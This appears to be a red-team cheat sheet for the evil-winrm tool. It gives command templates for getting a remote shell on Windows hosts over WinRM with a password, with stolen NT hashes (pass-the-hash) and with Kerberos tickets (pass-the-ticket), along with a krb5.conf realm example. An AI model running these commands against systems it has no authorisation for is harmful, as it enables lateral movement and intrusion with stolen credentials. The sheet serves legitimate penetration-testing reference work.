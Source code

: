 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p '<password>'
```
## domain account with creds
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -p '<password>'
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <domain_fqdn>
```